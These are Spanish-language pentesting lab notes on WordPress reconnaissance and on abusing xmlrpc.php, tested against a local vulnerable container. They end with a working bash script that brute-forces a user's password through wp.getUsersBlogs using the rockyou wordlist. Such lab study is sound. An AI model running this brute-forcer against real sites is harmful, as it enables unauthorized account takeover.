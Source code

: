 WordPress es un CMS de código abierto muy popular que fue lanzado en 2003. Es utilizado por millones de sitios web en todo el mundo y se destaca por su facilidad de uso y flexibilidad. Con WordPress, los usuarios pueden crear y personalizar sitios web sin necesidad de conocimientos de programación avanzados. Además, cuenta con una amplia variedad de plantillas y plugins que permiten añadir funcionalidades adicionales al sitio.

# Reconocimiento

Una de las primeras cosas a probar sería ver si el panel de login del administrador está en la ruta por defecto, es decir en `wp-admin`.

## Usuarios

Además en caso de estar por defecto, en cada publicación se nos mostrará el autor, que puede ser un usuario potencial. Si además conocemos la ruta del panel de administración, simplemente introduciéndolo podemos validar si existe en base al error que nos reporta (*Unknown username/wrong password*).

También, utilizando [[searchsploit]]:

```bash
searchsploit wordpress user enumeration
```
```exploit-db
[...]
WordPress Core < 4.7.1 - Username Enumeration | php/webapps/41497.php
[...]
```

## Plugins

Una buena herramienta para buscar plugins e información [[wpscan]].

Manualmente, podríamos tratar de entrar a `/wp-content/plugins/`, es decir donde se guardan los plugins; intentar ver el código fuente; hacer un [[curl]]...

## Credenciales

Se puede también comprobar si está expuesto el `xmlrpc.php`. Este archivo es una característica de WordPress que permite la comunicación entre el sitio web y aplicaciones externas utilizando el protocolo **XML-RPC**.

El archivo xmlrpc.php es utilizado por muchos plugins y aplicaciones móviles de WordPress para interactuar con el sitio web y realizar diversas tareas, como publicar contenido, actualizar el sitio y obtener información.

Sin embargo, este archivo también puede ser abusado por atacantes malintencionados para aplicar **fuerza bruta** y descubrir **credenciales válidas** de los usuarios del sitio. Esto se debe a que xmlrpc.php permite a los atacantes realizar un número ilimitado de solicitudes de inicio de sesión sin ser bloqueados, lo que hace que la ejecución de un ataque de fuerza bruta sea relativamente sencilla. Más info [aqui](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/).

# POC

Para la prueba de concepto utilizaremos el contenedor del siguiente [repo](https://github.com/vavkamil/dvwp). Se nos desplegará un *phpmyadmin* en el puerto 31338 y wordpress por 31337 (debemos configurarlo). 

Si accedemos con el navegador a `localhost:31337`, podremos ver la página principal. Si comprobamos la ubicación del panel de administración, vemos que está en la ruta por defecto (`wp-admin`). Si vemos el autor de las entradas vemos que es el usuario s4vitar (el que hemos creado al configurar el laboratorio), introduciéndolo en el panel podemos verificar que es un usuario válido del sistema.

Jugando con [[whatweb]]:

```bash
whatweb 127.0.0.1:31337
```
```whatweb
http://127.0.0.1:31337 [200 OK] Apache[2.4.38], Cookies[wp_wpfileupload_3553a1d4703dc2d8888df7ebd05c3cf5], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[127.0.0.1], JQuery, MetaGenerator[WordPress 5.3], PHP[7.1.33], PoweredBy[-wordpress,-wordpress,,WordPress], Script[text/javascript], Title[Hack4u Academy &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[5.3], X-Powered-By[PHP/7.1.33]
```

Vemos que está corriendo wordpress 5.3. Vamos a lanzar [[wpscan]]:

```bash
wpscan --url http://127.0.0.1:31337
```

Nos arrojará gran cantidad de información sobre temas, plugins...

Vamos a ver si existe el `xmlrpc.php`:

```bash
curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php"
```

Y vemos que responde, por lo que vamos a tratar de abusarlo. Creamos un archivo con la siguiente estructura *xml*:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

Ahora, con [[curl]] de nuevo hacemos la petición pasando dicho archivo:

```bash
curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file.xml
```
```xml
[...]
  <value><string>wp.getUsersBlogs</string></value>
[...]
```

Der forma que teniendo dicho método disponible, podríamos utilizar una estructura como la siguiente:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```

De forma que podríamos crear un script para sacar las credenciales mediante fuerza bruta:

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo..."
    exit 1
}

# Ctl+c
trap ctrl_c SIGINT

function createXML(){
    password=$1
    xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>s4vitar</value></param> 
<param><value>$password</value></param> 
</params> 
</methodCall>"""

    echo $xmlFile > file.txt
    response=$(curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file.txt)
    
    if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then
        echo -e "\n\n[*] La contraseña para el usuario s4vitar es: $password"
        exit 0
    fi

}

cat /usr/share/wordlists/rockyou.txt | while read password; do
    createXML $password
done
```
```script
[*] La contraseña para el usuario s4vitar es: louise
```

